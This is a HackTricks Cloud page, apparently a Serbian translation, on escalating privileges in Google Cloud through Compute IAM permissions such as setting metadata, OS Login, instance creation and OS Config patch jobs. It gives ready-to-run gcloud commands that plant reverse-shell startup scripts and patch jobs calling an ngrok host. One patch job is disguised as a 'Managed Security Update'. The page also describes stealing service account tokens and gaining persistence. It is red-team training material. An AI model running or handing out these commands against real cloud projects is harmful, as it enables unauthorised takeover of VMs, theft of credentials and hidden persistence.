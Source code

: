 # GCP - Compute Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Za više informacija o Compute i VPC (mreži) u GCP proverite:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Napomena: da biste izvršili sve napade na eskalaciju privilegija koji zahtevaju modifikaciju metapodataka instance (kao što je dodavanje novih korisnika i SSH ključeva) **potrebno je da imate `actAs` dozvole nad SA koja je povezana sa instancom**, čak i ako je SA već povezana!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Sa tom dozvolom možete **modifikovati** informacije o **metapodacima** **instance** i promeniti **ovlašćene ključeve korisnika**, ili **kreirati** **novog korisnika sa sudo** dozvolama. Stoga, moći ćete da se prijavite putem SSH u bilo koju VM instancu i ukradete GCP servisni nalog sa kojim instanca radi.\
Ograničenja:

* Napomena: GCP servisni nalozi koji rade u VM instancama po defaultu imaju **veoma ograničen opseg**
* Moraćete da budete **u mogućnosti da kontaktirate SSH** server da biste se prijavili

Za više informacija o tome kako iskoristiti ovu dozvolu proverite:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Takođe možete izvršiti ovaj napad dodavanjem novog startup-skripta i ponovnim pokretanjem instance:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Ova dozvola daje **iste privilegije kao prethodna dozvola** ali za specifične instance umesto za ceo projekat. **Iste eksploatacije i ograničenja kao za prethodni deo se primenjuju**.

### `compute.instances.setIamPolicy`

Ova vrsta dozvole će vam omogućiti da **dodelite sebi ulogu sa prethodnim dozvolama** i eskalirate privilegije zloupotrebom istih.

### **`compute.instances.osLogin`**

Ako je **OSLogin omogućen na instanci**, sa ovom dozvolom možete jednostavno pokrenuti **`gcloud compute ssh [INSTANCE]`** i povezati se na instancu. Nećete imati root privilegije unutar instance.

{% hint style="success" %}
Da biste se uspešno prijavili sa ovom dozvolom unutar VM instance, potrebno je da imate dozvolu `iam.serviceAccounts.actAs` nad SA vezanom za VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Ako je **OSLogin omogućen na instanci**, sa ovom dozvolom možete jednostavno pokrenuti **`gcloud compute ssh [INSTANCE]`** i povezati se na instancu. Imaćete **root privilegije** unutar instance.

{% hint style="success" %}
Da biste se uspešno prijavili sa ovom dozvolom unutar VM instance, potrebno je da imate dozvolu `iam.serviceAccounts.actAs` nad SA vezanom za VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Moguće je **napraviti virtuelnu mašinu sa dodeljenim Service Account-om i ukrasti token** servisa pristupajući metapodacima kako biste eskalirali privilegije.

Eksploatacijski skript za ovu metodu može se naći [ovde](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Ako imate dozvole **`osconfig.patchDeployments.create`** ili **`osconfig.patchJobs.exec`** možete kreirati [**patch job ili deployment**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Ovo će vam omogućiti da se lateralno krećete u okruženju i dobijete izvršavanje koda na svim instancama za obradu unutar projekta.

Napomena da trenutno **ne trebate `actAs` dozvolu** nad SA vezanom za instancu.

Ako želite ručno da iskoristite ovo, potrebno je da kreirate ili [**patch job**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **ili** [**deployment**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)**.**\
Za patch job pokrenite: 

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Da biste implementirali ispravku:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
The tool [patchy](https://github.com/rek7/patchy) se u prošlosti mogao koristiti za iskorišćavanje ove pogrešne konfiguracije (ali sada ne radi).

**Napadač takođe može zloupotrebiti ovo za postizanje trajnosti.**

### `compute.machineImages.setIamPolicy`

**Dodelite sebi dodatne dozvole** za računarsku sliku.

### `compute.snapshots.setIamPolicy`

**Dodelite sebi dodatne dozvole** za snimak diska.

### `compute.disks.setIamPolicy`

**Dodelite sebi dodatne dozvole** za disk.

### Obilaženje pristupnih opsega

Prateći ovu vezu, pronaći ćete neke [**ideje za pokušaj obilaženja pristupnih opsega**](../).

### Lokalno eskaliranje privilegija u GCP Compute instanci

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Reference

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
